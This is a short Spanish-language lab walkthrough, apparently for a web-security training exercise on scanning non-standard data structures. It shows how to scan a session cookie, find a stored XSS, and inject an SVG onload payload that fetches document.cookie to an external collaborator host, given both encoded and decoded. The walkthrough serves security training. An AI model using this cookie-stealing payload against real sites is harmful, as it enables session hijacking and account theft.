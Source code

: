 ```yaml
---
layout: default
title: 2 - Scanning non-standard data structures
---
```


En la cookie hay que seleccionar wiener y lanzarle un escaneo y lo mismo con  `3aASUfimfLKdHOnwtTUN5b0hUiZIvxQzjH` 

```HTTP
Cookie: session=wiener%3aASUfimfLKdHOnwtTUN5b0hUiZIvxQzjH;
```

Nos encontrará un stored XSS , se ha encontrado porque parece ser que alguien ejecutó el XSS escondido y lanzó una petición al collaborator.

Introducimos un payload para robar la cookie :

```HTTP
Cookie: session='%22%3e%3csvg%2fonload%3dfetch(%60%2f%2fmoevjmpvk74i1dc4cofpvfkxfolj9nxc.oastify.com%2f%24%7bencodeURIComponent(document.cookie)%7d%60)%3e%3aASUfimfLKdHOnwtTUN5b0hUiZIvxQzjH;
```

```HTML
Cookie: session='"><svg/onload=fetch(`//moevjmpvk74i1dc4cofpvfkxfolj9nxc.oastify.com/${encodeURIComponent(document.cookie)}`)>:ASUfimfLKdHOnwtTUN5b0hUiZIvxQzjH;
```
